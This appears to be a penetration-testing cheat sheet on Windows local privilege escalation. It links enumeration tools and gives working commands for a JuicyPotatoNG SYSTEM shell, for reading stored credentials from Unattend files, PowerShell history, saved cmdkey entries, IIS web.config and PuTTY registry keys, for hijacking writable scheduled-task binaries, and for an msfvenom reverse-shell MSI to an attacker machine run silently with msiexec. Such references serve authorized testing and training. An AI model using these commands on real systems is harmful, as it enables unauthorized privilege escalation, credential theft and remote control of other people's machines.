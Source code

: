 ```yaml
---
description: A list of Privilege Escalation Techniques for Windows.
---
```


# Windows

## Local Privesc Scanner

### winPEAS

winPEAS is a script that search for possible paths to escalate privileges on **Windows** hosts.&#x20;

> **Github:** [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

### PrivescCheck

This script aims to enumerate common Windows configuration issues that can be leveraged for local privilege escalation. It also gathers various information that might be useful for exploitation and/or post-exploitation.

> **Github:** [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

### Windows Exploit Suggester - Next Generation (WES-NG)

**WES-NG** is a tool based on the output of Windows' `systeminfo` utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 11, including their Windows Server counterparts, is supported.

> **Github:** [https://github.com/bitsadmin/wesng](https://github.com/bitsadmin/wesng)

##  Automatic privesc tools

###  PowerUP

PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.

Running Invoke-AllChecks will output any identifiable vulnerabilities along with specifications for any abuse functions. The -HTMLReport flag will also generate a COMPUTER.username.html version of the report.

> **Github:** [PowerUP](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

> ⚠️ This tool is no longer supported

###  Sherlock

PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

> **Github:** [Sherlock](https://github.com/rasta-mouse/Sherlock)

> ⚠️ This tool is no longer supported

###  Watson

Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.

> **Github:** [Watson](https://github.com/rasta-mouse/Watson)

> ⚠️ This tool is no longer supported

## Impersonation

### JuicyPotatoNG

Allow a Windows Service Accounts to privesc to NT AUTHORITY\SYSTEM when `SeImpersonate` or `SeAssignPrimaryToken` privilege are enabled.

```bash
# Get a shell on the machine
.\JuicyPotatoNG.exe -t * -p "C:\windows\system32\cmd.exe" -i
```

> **Github:** [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

##  Harvesting passwords

###  Unattended windows installations

Unattended windows installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:
```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

Credentials could be stored in these files.

###  Powershell history

From cmd:
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

From PowerShell:
```PowerShell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Windows saved credentials

Use the following command to list the saved credentials:
```PowerShell
cmdkey /list
```

If you see some saved credentials you can run a new shell as this user:
```
runas /savecred /user:privileged_user cmd.exe
```

###  IIS configuration

You might find IIS configuration files in the following locations:
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

You can search for "connectionString" to find some database credentials in the config file.
```cmd
type web.config | findstr connectionString
```

###  PuTTY proxy credentials

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
```PowerShell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

##  Missconfigurations

###  Scheduled tasks

Look for scheduled task that either lost its binary or it's using a binary you can modify.

List scheduled tasks:
```PowerShell
schtasks
```

See the details of a task:
```PowerShell
schtasks /query /tn vulnerable_task /fo list /v
```

The program executed by the task will be listed under "Task To Run:". If you can modify this binary, you can run code as the user running the task (listed under "Run as User:").
You can use `icacls` to check the file permissions.
```
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

In this example you can see that the groups who have "(F)" are the groups which have full access to the file.
If you are in one of these groups, you can replace it by your payload to execute the code you want, just keep the name used in the scheduled task.

###  Always Install Elevated

You need to check that two regirsty keys are set to know if the machine is exploitable. You can check them with the following commands:
```PowerShell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

If both are set, the machine is epxloitable.
By using `msfvenom` you can generate a msi payload that will exploit the vulnerability.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attack_machine_ip> LPORT=9001 -f msi -o reverse_shell.msi
```

Then start a metasploit handler on your attack machine, set the payload to be the same as the one use with msfvenom.
Then drop your payload on the vulnerable machine and execute it by using the following command:
```PowerShell
msiexec /quiet /qn /i <path_to_the_payload>
```

##  Resources

[PayloadsAllTheThings - Windows Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
[Red Team Notes 2.0 - Privesc](https://dmcxblue.gitbook.io/red-team-notes/privesc)
